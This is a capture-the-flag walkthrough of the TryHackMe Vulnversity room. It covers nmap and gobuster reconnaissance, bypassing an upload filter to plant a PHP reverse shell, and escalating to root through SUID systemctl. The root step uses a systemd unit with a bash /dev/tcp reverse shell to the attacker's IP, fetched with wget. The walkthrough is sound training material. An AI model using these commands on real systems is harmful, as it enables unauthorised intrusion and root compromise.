 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: https://tryhackme.com/room/vulnversity

## Tools 

1. NMap https://nmap.org/download
2. Gobuster https://github.com/OJ/gobuster
3. Burp Intruder https://portswigger.net/burp
4. Burp Proxy Toggle Extension https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/

## Deploy the machine 

1. Deploy The Machine by clicking Start The Machine
2. Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

1. Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```
3. Question `how many ports are open?` Answer `6`
4. Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
5. Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
6. Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
7. Question `What port is the web server running on?` Answer `3333`
8. Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 
   
1. Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
2. We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```
3. Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

1. Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
2. Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
3. Question `Run this attack, what extension is allowed?` Answer `.phtml`
4. Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
5. Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
6. Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
7. Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

1. To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
2. Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
3. Now we can start rooting the server.
4. At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)
```bash
[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```
5. Now started web server on my machine using `python3 -m http.server 7860`
6. On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
7. Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
8. Started netcat listner on the given port with `nc -lvnp 1337`.
9. Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
10. Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)




